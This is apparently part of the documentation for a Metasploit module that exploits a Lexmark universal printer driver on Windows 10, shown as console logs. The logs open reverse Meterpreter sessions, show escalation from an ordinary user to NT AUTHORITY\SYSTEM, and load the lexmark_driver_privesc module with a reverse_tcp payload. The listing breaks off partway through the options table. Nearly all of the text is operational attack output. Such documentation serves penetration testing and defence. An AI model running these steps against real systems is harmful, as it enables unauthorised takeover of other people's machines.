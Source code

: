 ```
[!] The service is running, but could not be validated. A potentially vulnerable Lexmark print driver is available.
[*] Adding printer dgvUKSrm...
[*] Sending stage (200262 bytes) to 10.0.0.8
[*] Sending stage (200262 bytes) to 10.0.0.8
[*] Meterpreter session 2 opened (10.0.0.9:1271 -> 10.0.0.8:51830) at 2021-08-10 18:09:29 -0400
[*] Deleting printer dgvUKSrm
[*] Meterpreter session 3 opened (10.0.0.9:1271 -> 10.0.0.8:51831) at 2021-08-10 18:09:31 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

## Lexmark Universal Printer v2 - version 2.10.0.5 On Windows 10 v1903
```
msf exploit(multi/handler) > exploit

[*] Started bind TCP handler against 192.168.224.194:4444
[*] Sending stage (200262 bytes) to 192.168.224.194
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.224.194:4444) at 2021-08-11 14:09:19 -0500

meterpreter > getuid
Server username: DESKTOP-O7MJD36\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/lexmark_driver_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/local/lexmark_driver_privesc) > show options

Module options (exploit/windows/local/lexmark_driver_privesc):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   DRIVERNAME                   no        The name of the Lexmark driver to exploit
   SESSION                      yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
```